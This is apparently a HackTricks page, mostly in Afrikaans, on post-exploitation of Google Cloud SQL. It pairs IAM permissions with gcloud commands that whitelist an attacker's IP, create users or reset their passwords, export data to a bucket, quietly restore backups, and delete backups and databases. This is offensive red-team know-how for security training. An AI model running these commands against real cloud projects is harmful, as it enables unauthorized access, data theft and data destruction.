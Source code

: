 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Vir meer inligting oor Cloud SQL, kyk:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Om met die databasisse te verbind, **het jy net toegang tot die databasispoort nodig** en moet jy die **gebruikersnaam** en **wagwoord** weet, daar is geen IAM vereistes nie. So, 'n maklike manier om toegang te verkry, veronderstel dat die databasis 'n publieke IP-adres het, is om die toegelate netwerke op te dateer en **jou eie IP-adres toe te laat om toegang te verkry**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Dit is ook moontlik om **`--no-backup`** te gebruik om die **rugsteun** van die databasis te **onderbreek**.

Aangesien dit die vereistes is, is ek nie heeltemal seker waarvoor die toestemmings **`cloudsql.instances.connect`** en **`cloudsql.instances.login`** is nie. As jy dit weet, stuur 'n PR!

### `cloudsql.users.list`

Kry 'n **lys van al die gebruikers** van die databasis:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Hierdie toestemming laat toe om **nuwe gebruiker binne** die databasis te **skep**:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Hierdie toestemming laat toe om **gebruikers binne** die databasis te **opdateer**. Byvoorbeeld, jy kan sy wagwoord verander:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Back-ups mag **ou sensitiewe inligting** bevat, so dit is interessant om hulle te kontroleer.\
**Herstel 'n rugsteun** binne 'n databasis:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Om dit op 'n meer stil manier te doen, word dit aanbeveel om 'n nuwe SQL-instansie te skep en die data daar te herstel in plaas van in die tans lopende databasisse.

### `cloudsql.backupRuns.delete`

Hierdie toestemming laat toe om rugsteun te verwyder:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Eksporteer 'n databasis** na 'n Cloud Storage-bucket sodat jy dit van daar af kan toegang.
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importeer 'n databasis** (oorskryf) vanaf 'n Cloud Storage-bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Verwyder 'n databasis van die db-instantie:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
